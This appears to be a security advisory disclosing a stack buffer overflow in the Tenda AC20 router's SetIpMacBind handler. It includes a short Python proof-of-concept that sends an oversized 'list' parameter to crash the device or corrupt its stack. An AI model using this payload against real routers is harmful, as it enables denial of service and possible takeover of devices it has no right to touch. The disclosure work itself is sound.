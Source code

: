 # Stack-Based Buffer Overflow in Tenda AC20 (firmware V16.03.08.12) fromSetIpMacBind

## Summary

A stack-based buffer overflow vulnerability in the Tenda AC20 router (firmware V16.03.08.12) allows unauthenticated remote attackers to execute arbitrary code or cause denial of service (DoS) via the `list` parameter in the `/goform/SetIpMacBind` endpoint. The flaw resides in the `sub_48E628` function, which processes the `list` input using the unsafe `strcpy` function without bounds checking, leading to stack memory corruption.

## Details



*   **Vendor**: Tenda

*   **Product**: Tenda AC20

*   **Firmware Version**: V16.03.08.12

*   **Firmware Download**: [https://www.tenda.com.cn/material/show/3264](https://www.tenda.com.cn/material/show/3264)

*   **Component**: `/goform/SetIpMacBind`

*   **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)

*   **CVE ID**: Pending

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description

The vulnerability exists in the processing chain of the `list` parameter in the `fromSetIpMacBind` function and its dependent `sub_48E628` function. The call chain and key operations are as follows:



1.  **Parameter Retrieval**: The `list` parameter is retrieved via `websGetVar` in `fromSetIpMacBind` and passed to `sub_48E628` for IP-MAC binding rule processing. The `bindnum` parameter specifies the number of binding rules to process.

2.  **Rule Parsing**: `sub_48E628` is called iteratively to process each rule in `list`. It splits the input by the delimiter (ASCII 10, line feed) using `strchr`, treating each segment as an individual IP-MAC binding rule.

3.  **Unsafe Copy**: For each split rule segment, the critical unsafe operation occurs:

*   `strcpy(v4, (char *)*a2)`: Copies the user-controlled rule segment (`*a2`, derived from `list`) into `v4`, a fixed-size 128-byte stack buffer.

*   `strcpy` does not validate the length of the input against the size of `v4`. If the rule segment exceeds 127 bytes (plus the null terminator), it will overflow the `v4` buffer.

4.  **Subsequent Parsing**: After the unsafe copy, `sscanf` is used to parse fields from `v4` (e.g., device name, MAC address, IP address). However, the prior `strcpy` already introduces the overflow risk, as the buffer may have already been corrupted before parsing.

If the user-controlled `list` parameter contains a rule segment longer than 127 bytes, `strcpy(v4, (char *)*a2)` will overflow the 128-byte `v4` buffer, overwriting adjacent stack memory (including return addresses, saved registers, and other critical stack data). This allows an attacker to corrupt the stack and potentially execute arbitrary code.
![PoC 2 Result: Root Directory Listing](./imgs/0.png)
![PoC 2 Result: Root Directory Listing](./imgs/1.png)
## PoC: Python Exploit Script



```
from pwn import *
import requests
url = "http://192.168.xxx.xxx/goform/SetIpMacBind"
cookie = {"Cookie":"password=rfl1qw"}
data = {"bindnum": "1","list": cyclic(1000)}
res = requests.post(url, cookies=cookie, data=data)
res = requests.post(url, cookies=cookie, data=data)
print(res.text)
```
![PoC 2 Result: Root Directory Listing](./imgs/2.png)

This script sends a crafted `list` parameter containing an overly long IP-MAC binding rule segment. When processed by `sub_48E628`, the `strcpy(v4, (char *)*a2)` call will overflow the `v4` buffer, causing stack corruption. Successful exploitation may result in arbitrary code execution or a denial of service condition (router crash/reboot).
